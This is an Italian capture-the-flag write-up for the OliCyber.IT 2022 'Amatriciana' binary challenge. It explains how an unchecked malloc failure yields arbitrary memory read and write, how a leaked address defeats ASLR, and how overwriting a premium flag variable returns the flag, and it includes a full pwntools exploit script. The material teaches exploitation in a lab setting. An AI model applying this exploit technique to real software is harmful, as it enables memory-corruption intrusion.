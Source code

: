 # OliCyber.IT 2022 - Competizione nazionale

## [binary-4] Amatriciana (4 risoluzioni)

La challengepresenta innanzitutto un meraviglioso gabibbo che offre un piatto di pasta all'amatriciana.
Dopo questa immagine bucolica, offre all'utente la possibilità di immagazzinare matrici di numeri reali in double precision e farci dei calcoli. Guardando il sorgente si vede abbastanza in fretta che per ottenere la flag bisogna essere utenti premium e utilizzare la funzione numero 6 del menù, prodotto fra matrici. Purtroppo però non esiste modo lecito di diventare utente premium.

### Soluzione

Notiamo che nella funzione `new_matrix` viene volontariamente leakato un indirizzo. L'indirizzo in questione è sullo stack perché è l'indirizzo di una variabile locale, ma permetterà abbinato ad altri bug di bypassare l'ASLR.

L'errore fatale in questo caso sta nella seguente riga.

```c
  mat->elem = malloc(sizeof(double)*ncols*nrows);
```

L'errore non è tanto qui, quanto nel fatto che nessuno controlla se `malloc` ha ritornato un puntatore valido o `NULL`. Questo è un grosso problema, perché è molto facile fare fallire malloc per volontariamente fargli restituire `NULL`, basta richiedere troppa memoria (e.g. 64GB), che si può ottenere abbastanza facilmente visto che la memoria richiesta è `ncols*nrows*sizeof(double)`. Essendo `ncols` e `nrows` degli interi a 64 bit, basta prendere `ncols = nrows = 2^30` per andare a richiedere un totale di `2^63` bytes di memoria. La richiesta fallirà sicuramente.

La parte interessante è che adesso possiamo leggere e scrivere dove vogliamo in memoria, perché anche se `malloc` è fallito, il programma non lo sa. Per esempio, la funzione `edit_element` permette di fare

```c
  scanf("%le", &mat->elem[row*mat->ncols + col]);
```

Essendo `mat->elem = NULL = 0`, abbiamo una primitiva di scrittura. Possiamo scrivere esattamente 8 bytes ad un indirizzo arbitrario allineato a 8 bytes, in quanto andremo a scrivere direttamente all'indirizzo `8*(row*mat->ncols + col)`. Notare che questo valore varia fra `0` e `2^63`. Dato che gli indirizzi in userspace hanno solo gli ultimi 48 bit diversi da zero, abbiamo a tutti gli effetti scrittura arbitraria. Allo stesso modo, `print_element` permette di leggere ad indirizzi mappati arbitrari per lo stesso motivo

```c
  printf("%.20e\n", mat->elem[row*mat->ncols + col]);
```

La strategia è quindi:

- allocare una matrice troppo grossa, meglio se è `2^30*2^30`
- leggere qualcosa sullo stack usando il leak di informazioni per bypassare ASLR
- scrivere un valore qualsiasi diverso da 0 sulla variabile globale `is_premium`, che sta nella sezione `.bss` del binario. Questo vuol dire che, sapendo l'indirizzo base del binario sappiamo anche l'indirizzo di questa variabile.
- fare un finto prodotto fra matrici e ottenere la flag
- guardare di nuovo il banner del Gabibbo.

La parte più complicata di tutto questo è probabilmente capire la specifica IEEE 754 che definisce come viene interpretata una sequenza di 8 bytes come numero reale. Per fortuna esistono `struct.pack` e `struct.unpack` che sono funzioni builtin del python che permettono agilmente di effettuare la trasformazione. Abbinate a `u64` e `p64` di pwntools permettono di avere il numero intero che ne è la rappresentazione.

### Exploit

```py
#!/usr/bin/env python3
from pwn import ELF, context, process, ui, log, u64, p64, args, remote
from struct import pack as spack, unpack as sunpack
from pathlib import Path

wd = Path(__file__).parent.resolve() / "src"
exe = context.binary = ELF(wd / "amatriciana")
remotehost = ("amatriciana.challs.olicyber.it", 12302)


def menu(io, choice: int):
    io.recvuntil(b"8) Esci\n")
    io.sendline(f"{choice}".encode())


def newmat(io, rows: int, cols: int, name: str):
    menu(io, 0)
    io.sendlineafter(b"colonne?", f"{rows} {cols}".encode())
    io.sendlineafter(b"a questa matrice?\n", name.encode())
    io.recvuntil(b"successo\n")
    io.recvuntil(b"nrows: ")
    return int(io.recvline(False).decode(), 16)


def print_mat_short(io, nmat: int):
    menu(io, 2)
    io.sendlineafter(b"Quale matrice?\n", f"{nmat}")
    return io.recvline()


def arb_read(addr: int):
    log.info(f"Adesso leggo all'indirizzo {addr:#018x}")
    if addr % 8 != 0:
        log.error("Vogliamo indirizzi multipli di sizeof(double) = 8")
    addr //= 8
    menu(io, 3)
    io.sendlineafter(b"matrice?", f"{bigmat}".encode())
    row = addr // bigrow
    col = addr % bigrow
    log.debug(f"Requesting pos {row:#x} {col:#x}")
    io.sendlineafter(b"elemento?\n", f"{row} {col}".encode())
    return io.recvline(False)


def arb_write(addr: int, value: int):
    if addr % 8 != 0:
        log.error("Vogliamo indirizzi allineati a 8")
    addr //= 8
    menu(io, 4)
    io.sendlineafter(b"matrice?", f"{bigmat}".encode())
    row = addr // bigrow
    col = addr % bigrow
    log.debug(f"Requesting pos {row:#x} {col:#x}")
    io.sendlineafter(b"elemento?", f"{row} {col}".encode())

    sending = sunpack("<d", p64(value))[0]
    io.sendline(f"{sending:.20e}".encode())


def get_flag(io):
    menu(io, 6)
    io.sendlineafter(b"matrici?\n", b"0 1")
    io.recvuntil(b"accontentati\n")
    flag = io.recvline(False)
    log.success(f"Flag: {flag.decode()}")
    return flag


if __name__ == "__main__":
    io = process([exe.path], env={"FLAG": "flag{cusumano}"}, cwd=wd) if not args.REMOTE else remote(*remotehost)
    # ui.pause()
    addr = newmat(io, 1, 1, "cusumano")
    log.info(f"Leaked addr: {addr:#016x}")
    # Here we have main
    main_p78 = addr + 0x60

    bigrow = (1 << 30)
    bigmat = 1
    newmat(io, bigrow, bigrow, "manuele")
    leaked = arb_read(main_p78)
    leak_addr = u64(spack("<d", float(leaked)))
    log.info(f"Float number leaked: {leaked}, converted to addr {leak_addr:#016x}")
    exe.address = leak_addr - exe.sym.main
    log.success(f"Leaked address of exe: {exe.address:#016x}")
    arb_write(exe.sym.is_premium, 1)
    get_flag(io)

    io.close()
```

### Flag

Il programma leaka da solo delle informazioni, con quello si rompe ASLR.
Poi il programma alloca con malloc matrici di dimensione decisa dall'utente, ma non controlla se malloc fallisce.
Se chiedi una matrice abbastanza grande, malloc fallisce e tu riesci a scrivere dove vuoi.
Sovrascrivi una variabile globale (`is_admin`) e hai vinto.

